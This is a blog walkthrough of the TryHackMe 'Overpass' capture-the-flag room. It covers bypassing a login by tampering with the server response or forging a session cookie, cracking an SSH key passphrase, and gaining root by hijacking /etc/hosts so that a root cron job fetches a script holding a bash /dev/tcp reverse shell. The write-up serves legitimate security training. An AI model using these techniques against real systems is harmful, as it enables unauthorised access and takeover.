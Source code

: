 ```yaml
---
layout: post
published: true
title: "TryHackMe - Overpass | Walkthrough"
date: 2020-07-24 14:32:20 +0300
description: Overpass room of Tryhackme | Writeups.
excerpt: "Walkthrough of Overpass room - Tryhackme"
image: "https://jaiguptanick.github.io/Blog/images/overpass/overpass.png"
sitemap:
    priority: 0.8
    lastmod: 2020-07-24
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" >Overpass - Tryhackme Walkthrough </h2>
---
Here is a walkthrough of the [TryHackMe](https://tryhackme.com/) room “Overpass.” If you haven’t already completed the challenge, you can do so [here](https://tryhackme.com/room/overpass).
>

##Enumeration

<h3>Nmap</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nmap.png)

As always starting with a nmap scan.Only two 22 with SSH and 80 with Http are open.Rest are filtered.Initially no clue on SSH so moving to Enumerate Http.

Simultanously starting nikto scan till then but got nothing unusual.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/nikto.png)

Moving to the main website:-

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/website.png)

This shows a normal webpage with some information about overpass password manager.There are only two pages linked with homepage which seems usual,so starting directory scan.

<h3>Dirsearch Scan</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/dirsearch.png)

Directory scanning showed many pages but /admin/ seems interesting.

<h3>Logging In</h3>

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/adminpage.png)

Now no clue on credentials ,also bruteforcing is not the solution as mentioned in the hint.

So just enumerating the files assoiated with the sourcecode shows us an interseting file named login.js which contain the function used in login form on the /admin page.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logincode.png)

The function login() in the box is the vulnerable code that will let us bypass the login form. The variable creds takes the credentials and variable response sends them to /api/login for validation and the statusOrCookie variable takes the response. Till here everything seems perfect now in the Conditional statement it checks if the response form the server is "Incorrect Credentials" then it will not allow access otherwise it will set a cookie named "SessionToken" to statusOrCookie and redirect us to admin panel. Here lies the vulnerability as user can change the response of /api/login from "Incorrect Credentials" to anything else using BurpSuite and trick the server to run the else part of the code.<br>Lets see practically:-
<br>Intercepting request using burp:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/burp1.png)


Now as we want to change the response not the request so choosing Action > Do intersept > Response to the request

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/doresponse.png)

Forwarding the request to get the response:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/response1.png)

We get the response as expected now change it to anything else or delete "Incorrect Credentials" and again forward the request.
Now refresh the page to get the access.<br>
Wow! we got access to the page without the credentials.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/loggedin.png)

<h3><b>BONUS</b></h3>

There is alternate method to login as the login.js is creating a cookie in case of successfully logging in.
We can manually create the cookie on the login page named "SessionToken" and assign it any value as there is no code to validate our cookie.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/cookie.png)

Refresh the page to successfully logging in.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/logged_via_cookie.png)


Now Moving to page provides majorly 2 information:
``` 
	1.There is a user name james.
	2.The ssh key to login via SSH.
```
Saving the Key to a file and reduce its permission using ```chmod 400 james.key ``` and then connecting via SSH:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/ssh_fail.png)

OHH!! It is asking for the passphase for the provided key. As No passphase is found.Now bruteforing is the only option.
using <b>ssh2john.py</b> to conver to hash that john can crack using rockyou.txt

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/johncrack.png)

It successfully found the passphase that is <b>james13</b>. Now we can log in via SSH.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/james_ssh_success.png)

Get the user flag and submit.

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag1.png)


<h3>Privilege Escalation</h3>

This part is really interseting as none of the manual methods worked.
``` 
	1.Can't run sudo -l as don't know james password.
	2.SUID bit can be cheched by "find / -user root -perm -4000 -exec ls -ldb {} \; 2> /dev/null " but are also not intersting.
```
Using automated Tools like linpeas.sh intially not helped untill I saw the room tag mentioned "cron".

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/root_curl.png)

User root is connecting to a URL using curl, moving down to check more to results of linpeas shows writable access to file /etc/hosts which is usually only writable by root. 

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/etc.png)

Since curl is used by root so if we somehow exploit it we can get the root access.The curl command from cronjob is using a "overpass.thm" as hostname and we have write access to the hosts file. Meaning we can replace the hostname to make the cronjob think that the hostname is from our IP Address which will let it connect to our given IP address.

Lets do this practically:

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/python_server.png)

```
	1. We need to start a python server locally using "python3 -m http.server 80" choose port 80 as it is the default port.
	2. Make the same directory as "/downloads/src/buildscript.sh" 
	3. Finally a file named buildscript.sh with the reverse shell , i used it from pentestermonkey.net "bash -i >& /dev/tcp/10.9.19.190/1234 0>&1"
	4.Now start a netcat listener locally to which the Box will connect.
	5. At last replace the IP of the /etc/hosts of overpass.thm to our own connecting IP.
	6. All done now wait a few seconds till it connects back to us via nc listner due to cronjob assigned.

```

![Overpass]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/overpass/flag2.png)

Finally we got a connection from the Box as ROOT





<br>
<br>

<i>Thanks for your patience,I hope you enjoyed reading. Happy Hacking... </i>
